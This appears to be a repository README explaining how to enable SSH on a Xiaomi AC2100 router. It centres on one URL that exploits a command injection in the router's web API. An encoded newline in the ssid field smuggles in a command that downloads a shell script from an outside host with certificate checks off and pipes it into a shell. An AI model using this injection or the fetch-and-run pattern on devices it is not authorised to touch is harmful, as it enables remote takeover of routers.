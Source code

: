 # Enable SSH access to Xiaomi AC2100 router

The factory firmware of the router is a modified OpenWRT and, as such, the built-in sshd (Dropbear) can be enabled on it.

1. Log in to your router in its web interface, default IP is 192.168.31.1
2. Take a note of the security token (\<STOK\>)
3. Use this token, replacing \<STOK\> in the URL below, to build the final URL:

`http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev%3Fbssid%3Dxiaomi%26user_id%3Dxiaomi%26ssid%3D-h%0Acurl%20--insecure%20https%3A%2F%2Fgitlab.com%2Fvargazol%2Fxiaomi-ac2100-ssh%2F-%2Fraw%2Fmain%2Funlock_ssh.sh%20%7C%20ash%0A%0A`

If the command is injected and the script executed correctly, you will receive a **{"code":0}** response and the router will reboot.

Now you can connect to the router with ssh by executing `ssh root@192.168.31.1` in your terminal. The default password is _admin_. Don't forget to change it by executing "passwd" afterwards.
